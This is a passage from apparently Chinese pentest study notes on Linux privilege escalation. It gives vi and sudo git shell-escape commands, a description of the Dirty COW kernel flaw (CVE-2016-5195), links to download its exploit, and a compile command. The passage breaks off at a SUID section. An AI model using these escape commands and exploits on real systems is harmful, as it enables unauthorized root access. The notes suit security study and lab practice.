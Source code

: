 

### vi提权

（1）在末行模式输入（即最后输入保存命令的地方）

```
：set shell=/bin/bash
：shell
```

（2）之后会退出vi，在shell中输入

```
export PATH=$PATH:/bin
```



### Git提权

在shell输入：

```
sudo git -p help config
!/bin/sh
或者
sudo git -p help 
!/bin/bash
```



### 内核提权

内核提权著名的有脏牛漏洞

[脏牛漏洞](https://blog.csdn.net/arttnba3/article/details/115773316)即CVE-2016-5195，在Linux内核中隐藏了十年之久

**漏洞范围**：Linux内核 >= 2.6.22（2007年发行，到2016年10月18日才修复）

**简要分析**：该漏洞具体为，Linux内核的内存子系统在处理写入复制（copy-on-write, COW）时产生了竞争条件（race condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。

exp下载：https://github.com/gbonacini/CVE-2016-5195
                 https://www.exploit-db.com/download/40611

编译：

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```



### 本地环境变量

该提权方式能实现的前提是有系统命令有suid权限

流程：

1. 查找suid文件
